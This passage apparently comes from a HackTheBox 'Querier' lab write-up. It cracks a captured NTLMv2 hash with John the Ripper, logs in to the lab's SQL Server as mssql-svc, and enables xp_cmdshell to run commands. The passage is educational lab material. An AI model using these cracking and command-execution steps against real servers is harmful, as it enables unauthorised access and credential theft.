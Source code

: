 <div class="imgblock">

![mssql-hash](https://res.cloudinary.com/fluid-attacks/image/upload/v1620331037/blog/querier-writeup/mssql-hash_eioncm.webp)

<div class="title">

Figure 8. User hash

</div>

</div>

Then we copy the hash to a plain text file and use `John the Ripper`
with the dictionary `rockyou.txt` to crack the captured hash. We need to
specify the correct hash format because `John the Ripper` occasionally
recognizes your hashes as the wrong type. This is inevitable because
some hashes look identical, in this case the correct format for `NTLMv2`
is `netntlmv2`.

``` bash
$ john.exe --wordlist=rockyou.txt --format-netntlmv2 \\
     "\Users\dette\HackTheBox\Querier\hash_mssql-svc.txt"
```

<div class="imgblock">

![john](https://res.cloudinary.com/fluid-attacks/image/upload/v1620331036/blog/querier-writeup/john_hv30a2.webp)

<div class="title">

Figure 9. Runnnig John

</div>

</div>

Now we can connect to `SQL Server` as user `mssql-svc`. We try to
execute the command `whoami`, however, it responds telling us that
component `xp_cmdshell` is blocked. Since we are the service
administrator, we can enable it using a few queries.

``` bash
python mssqlclient.py -windows-auth QUERIER/mssql-svc:corporate568@10.10.10.125
```

<div class="imgblock">

![user-mssql](https://res.cloudinary.com/fluid-attacks/image/upload/v1620331037/blog/querier-writeup/user-mssql_iqxpns.webp)

<div class="title">

Figure 10. xp_cmdshell disabled

</div>

</div>

``` bash
> EXEC sp_configure 'show advanced options', 1;
> EXEC sp_configure reconfigure;
> EXEC sp_configure 'xp_cmdshell', 1;
> EXEC sp_configure reconfigure;
> EXEC master.dbo.xp_cmdshell 'whoami';
```
